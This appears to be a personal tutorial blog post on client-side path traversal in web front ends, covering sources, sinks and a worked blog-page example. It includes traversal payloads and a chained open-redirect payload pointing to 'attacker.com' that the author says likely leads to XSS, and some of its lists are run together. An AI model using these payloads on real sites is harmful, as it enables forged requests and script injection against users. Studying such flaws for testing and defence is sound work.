

Every security researcher should be familiar with path traversal vulnerabilities. These allow an attacker to use payloads like ../../../../ to access data outside the intended directory. Unlike server-side path traversal, which targets files on the server, client-side path traversal (CSPT) exploits weaknesses in frontend code to make unauthorized requests to unintended API endpoints. While server-side path traversal is well-known and commonly exploited, client-side variants have received far less attention and remain relatively rare in public disclosures.
const url = `/app/playbooks/${userInput}`;
fetch(url);If userInput = "../../../../api/v4/users" then:
fetch("/app/playbooks/../../../../api/v4/users")The browser normalizes this path, so now it resolves to:
fetch("api/v4/users")Nowadays, it is common to have a web application architecture with a back-end API and a dynamic front end such as React or Angular. If the frontend builds API request paths using unvalidated user input (like route parameters [/users/:id → /users/42] or query strings [/users?id=42]), then an attacker can use relative path traversal (../) to forge requests to sensitive or privileged API endpoints even bypassing client-side authorization logic.
In this context, an attacker with control over the {USER_INPUT} value can perform a path traversal in order to route the victim's request to another endpoint.
An attacker can coerce a victim into executing this unexpected request. This is the starting point of a Client-Side Path Traversal (CSPT). A Client-Side Path Traversal can be split into two parts.
The source is the trigger of the CSPT, while the sinks are the exploitable endpoints that can be reached by this CSPT.
In order to understand how we can use CSPT as an attack vector, both source and sink must be defined.
The source is where the attacker puts their input, then that input gets used in JavaScript to build a URL. Once one of these sources flows into JavaScript and gets used to dynamically construct a request path, that's where CSPT can be chained into CSRF, XSS, or other attacks.
Sources can come from:
?id=...#id=.../MyItems/cheesewindow.location (all parts)window.namedocument.referrerpostMessage parameterslocalStorage / sessionStorageform.action / img.src / iframe.src / script.src (if attacker controls the DOM or markup)In most cases, the input from the source gets inserted into a JavaScript function like fetch(), which sends an HTTP request. This request is triggered by user interaction (like clicking a button) OR happens automatically when the page loads. Depends on the application.
The sink is the JavaScript code that actually makes the request. For example:
fetch()XMLHttpRequest$.ajax(...)axios(...)and even HTML elements that can also send requests such as:
Image.srcaction attributeiframe.srcscript.srcThese all can act as sinks if they use untrusted (attacker-controlled) data when constructing the URL or path.
In CSPT, the attacker can only control the path of this request (e.g. /api/v1/users)
But the attacker cannot usually change:
Let's say there's a JavaScript function like this:
const file = getQueryParam("file");
fetch(`/files/${file}`);If an attacker sends a victim to:
https://example.com/page?file=../../../admin/dataThen the browser sends a request to:
/admin/dataThe frontend will send a request to an unintended endpoint!
Imagine that the frontend (source) sends this JSON data when making a request:
{
"user_id": "<VICTIM_USER_ID>",
"org_id": "<VICTIM_ORG_ID>",
"data": ""
}In this case, only the endpoints that accept this type of body will be reachable sinks. Meaning the attacker's forged request will only be accepted by endpoints that expect this structure.
That limits our reachable sinks. However, it is bypassable with a few tricks:
user_id, they can still send extra parameters. The backend may just ignore them and still process the request./api/v1/users?role=adminIn some cases, query parameters may override values in the body depending on how the backend is coded. This opens additional attack possibilities.
To help explain this vulnerability type, let's walk through an example. Say you have a blog website, and you want to make a page (say https://example.com/viewpost) where users could view posts. One way to implement this would be to include the following JS code in the page:
// get the value of the URL parameter "p"
const post_name = new URLSearchParams(location.search).get("p");
const blog_post_response = await fetch("/api/posts/get_content/" + post_name);
const post_content = await blog_post_response.text();
display_post_html(post_content);When a user navigates to https://example.com/viewpost?p=543, the JS code will get the HTML content of post number 543 by sending a request to https://example.com/api/posts/get_content/543, and will then display this content to the user. Because the p parameter can include attacker-controlled input, and its value is used directly in the path component of the URL which the page requests, this code is vulnerable to CSPT. If an attacker sent a victim a link to https://example.com/viewpost?p=../../../asdf, and the victim clicked on it, then the URL which gets constructed in the page would be https://example.com/api/posts/get_content/../../../asdf and as a result the page would send a request to https://example.com/asdf.
The rest of the JS code in the page would run normally, and would use the response to this request as if it was the content of a blog post, because it would be stored in the blog_post_response variable.
As you can see, the attacker can make the page send the request to an arbitrary endpoint in https://example.com/. To demonstrate the potential impact of this, let's assume that the application has an open redirect gadget in https://example.com/redirect?u=.... In that case, an attacker can chain the CSPT vulnerability with the open redirect gadget by using a payload such as ../../../?u=https://attacker.com.
When this payload is used, the vulnerable page sends the fetch request to https://example.com/redirect?u=https://attacker.com, and the response to this request would be a redirect to https://attacker.com. Because fetch automatically follows redirects by default, a subsequent request would be sent to https://attacker.com, and the response to that request would be stored in the blog_post_response variable. Because the attacker controls this response, the attacker can control the HTML content of the blog post which would be displayed to the user, most likely leading to XSS.
../ sequences to the path and make the request get sent to an arbitrary endpoint. This behavior is referred to as a CSPT vulnerabilityYou can test for these issues in two ways:
fetch()/XHR calls via breakpoints to let the browser pause the moment any XHR/fetch is about to fire. At that breakpoint, you can inspect the call stack and see exactly which JS file and line concatenated your "?param=...".
Will be adding more later.
This started as personal notes from my web hacking journey. I cleaned them up in case they help others too.
If you're learning too and want to connect:
symibot